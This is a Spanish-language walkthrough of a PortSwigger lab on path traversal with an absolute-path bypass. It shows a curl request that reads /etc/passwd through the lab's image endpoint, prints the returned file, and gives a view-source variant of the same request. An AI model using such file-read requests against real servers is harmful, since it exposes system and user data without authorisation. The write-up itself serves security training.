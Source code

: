 ```yaml
---
title: Path Traversal Lab 2
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Path Traversal
tags:
  - Path Traversal
  - File path traversal, traversal sequences blocked with absolute path bypass
image:
  path: /assets/img/Path-Traversal-Lab-2/Portswigger.png
---
```


## Skills

- File path traversal, traversal sequences blocked with absolute path bypass

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `path traversal` en la `visualización` de `imágenes` de `productos`. La aplicación bloquea el `../`, pero trata el `nombre` de `archivo` proporcionado como `relativo` a un `directorio` de trabajo `predeterminado`. Para `resolver` el `laboratorio`, hay que `obtener` el contenido del archivo `/etc/passwd`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Path-Traversal-Lab-2/image_1.png)

Si hacemos `Ctrl + U` vemos como se están `cargando` las `imágenes`

![](/assets/img/Path-Traversal-Lab-2/image_2.png)

Probamos un `directory path traversal`

```
# curl 'https://0ab4006004d3a9a2800f449c00c00083.web-security-academy.net/image?filename=/etc/passwd'                                                                
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Si lo queremos hacerlo desde la `web` debemos poner `view-source://`

```
view-source:https://0ab4006004d3a9a2800f449c00c00083.web-security-academy.net/image?filename=./etc/passwd
```

![](/assets/img/Path-Traversal-Lab-2/image_3.png)
